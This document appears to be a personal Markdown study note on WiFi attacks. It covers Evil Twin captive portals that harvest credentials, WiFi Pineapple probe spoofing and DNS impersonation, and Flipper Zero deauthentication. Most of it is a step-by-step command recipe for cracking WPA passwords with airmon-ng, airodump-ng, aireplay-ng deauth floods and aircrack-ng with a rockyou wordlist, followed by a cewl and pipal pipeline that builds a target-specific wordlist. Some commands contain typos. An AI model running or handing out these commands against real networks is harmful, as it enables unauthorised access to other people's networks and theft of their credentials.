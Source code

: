 Webpage pops-up before connection and authenticate with some credentials

Credentials can be exposed/eavesdropped

As target the Evil Twin will provide no internet so you can disconnect

Alternative create fake `Evil Twin`: `vim hostapd.conf` and replicate WiFi network settings/details

Perform de-auth attacks using **Flipper Zero**

## Pro - WiFi Pineapple Enterprise

Scan for reconnaissance and create Evil Twins for targets

Make you connect to an ESSID automatically as the phone remembers the previous hosts

Pineapple is listening for probes for known WiFi networks from devices

* Can eventually spoof the DNS - impersonate DNS server => leads to fake webpages

Everything can be protected by `VPN` as it encrypts all traffic to everywhere

Capture handshakes by de-authenticating a network or certain clients through the Pineapple UI

## Hacker cracking a WiFi password:

* `sudo airmon-ng wlan0 start` - put network adapter into monitor mode to listen instead of connecting to networks around

* `iwconfig` - make sure it is running

* `sudo airmon-ng check kill` - check and kill processes that interfere with the monitor adapter

* `sudo airdump-ng wlan0 -abg` - monitor all types of wireless channels --> identify the target wireless network 

* `sudo airodump-ng -bssid mac=0X:X0:X0:00:XX:XX: -c 2 wlan0` - MAC address of station and the channel on which it operates --> listen in and capture waiting for the 4-way handshake with a connecting device

* De-authentication attack - make device lose connection - impersonate `deauth` messages as coming from the real router

* `sudo aireplay-ng -0 0 -a mac_router=0X:X0:X0:00:XX:XX: wlan0` - checking for `EAPOL` message and then stop it, capturing into a file

* From the files with the 4-way handshake one can brute-force the password by guessing using wordlist - big bag of keys/passwords ex. `rockyou` using the command 

`sudo aircrack-ng -w rockyou.txt 4handshake.pcap`


### Alternative
`sudo cewl shop.com -w shop_wordlist.txt` - crawl the website of the location/shop and record all the keywords that might be used in a password


> Look through `wordlist` to search for keywords that might be used in a password
```bash
sudo pipal shop_wordlist.txt | grep -A 10 "Top 10 passwords" | tail -n +2 | awk  -F '=' '{print $1}' | tr 'A-Z' 'a-z' > top_10passwords.txt
```

`tr 'A-Z' 'a-z'` - lowercases the strings

With a Python script - combine words in all possible ways and then `CRACK!` - higher chances of finding the password - **profiling technique**